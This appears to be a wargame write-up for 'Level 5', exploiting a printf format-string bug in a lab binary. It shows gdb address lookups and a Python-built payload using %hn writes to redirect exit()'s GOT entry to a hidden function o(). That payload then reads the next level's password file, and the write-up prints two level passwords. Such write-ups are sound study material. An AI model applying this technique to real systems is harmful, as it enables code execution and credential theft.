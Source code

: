 # Level 5
*password : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a*

```
$ scp -P 4242 level5@192.168.56.108:level5 .
```

## Printf exploit

- use printf to execute o().
- replace the return address of exit() by o()

```
$ gdb level5
(gdb) info funct o
...
0x080484a4  o
...
```
- get exit() return address
```
(gdb) disas n
...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

`o()` address : 0x080484a4\
`exit()` : 0x08049838


- convert o() address to decimal : 134513828 (too long)\
- split the address into 2 int :
   - 804 = 2052
   - 84a4 = 33956

```
$ python -c 'print "\x38\x98\x04\x08 %p %p %p %p"' | ./level5
8 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049838
```

address of `exit()` at parameter 4th.

```
$ python -c 'print "\x38\x98\x04\x08" + "%2048x" + "%4$hn" + "%31904x"+ "%4$hn"' > /tmp/level5
$ cat /tmp/level5 - | ./level5
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
